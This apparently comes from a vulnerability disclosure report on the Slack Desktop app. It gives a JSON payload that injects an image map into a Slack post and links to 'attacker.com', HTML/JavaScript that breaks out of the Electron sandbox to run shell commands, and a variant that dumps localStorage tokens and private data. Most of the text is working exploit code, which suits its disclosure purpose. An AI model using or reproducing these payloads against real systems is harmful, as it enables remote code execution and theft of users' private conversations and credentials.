 JSON to provide for Slack Post edit @ `https://{YOUR-TEAM-HOSTNAME}.slack.com/files/{YOUR-MEMBER-ID}/{FILE-ID}/title/edit` payload.json:
```
{
  "full": "asd",
  "preview": "<img src=\"https://files.slack.com/files-tmb/T02AVL3AF-FSUE04U2D-881f692a25/screenshot_2020-01-26_at_21.12.20_360.png\" width=\"10000\" height=\"10000\" usemap=\"#slack-img\"><map name=\"slack-img\"><area shape=\"rect\" coords=\"10000,10000 0,0\" href=\"https://attacker.com/t.html\" target=\"_self\"></map>"
}
```

### 3. RCE exploit code - hosted on attacker's website 

the URL link within the `area` tag would contain this HTML / JS exploit for Slack Desktop apps which executes any attacker provided command:
```
<html>
<body>
<script>
  // overwrite functions to get a BrowserWindow object:
  window.desktop.delegate = {}
  window.desktop.delegate.canOpenURLInWindow = () => true
  window.desktop.window = {}
  window.desktop.window.open = () => 1
  bw = window.open('about:blank') // leak BrowserWindow class
  nbw = new bw.constructor({show: false, webPreferences: {nodeIntegration: true}}) // let's make our own with nodeIntegration
  nbw.loadURL('about:blank') // need to load some URL for interaction
  nbw.webContents.executeJavaScript('this.require("child_process").exec("open /Applications/Calculator.app")') // exec command
</script>
</body>
</html>
```

For windows just replace `open /Applications/Calculator.app` with `calc` or anything else.

To test the RCE payload, you can open Developer Tools on any Slack Desktop app and paste only the Javascript code in console. It achieves RCE and illustrates that it's independent of any entry point - i.e. redirect within the desktop app.

### 4. easy access to all private data without command execution 

The payload can be easily modified to **access all private conversations, files, tokens etc.** without executing commands on the user's computer: 
```
<html>
<body>
<script>
  window.desktop.delegate = {}
  window.desktop.delegate.canOpenURLInWindow = () => true
  window.desktop.window = {}
  window.desktop.window.open = () => 1
  bw = window.open('about:blank')
  nbw = new bw.constructor({show: false}) // node not necessary for this demo
  nbw.loadURL('https://app.slack.com/robots.txt') // robots.txt for speed, app.slack.com gives us the user's full environment 
  nbw.webContents.executeJavaScript('alert(JSON.stringify(localStorage))')
</script>
</body>
</html>
```
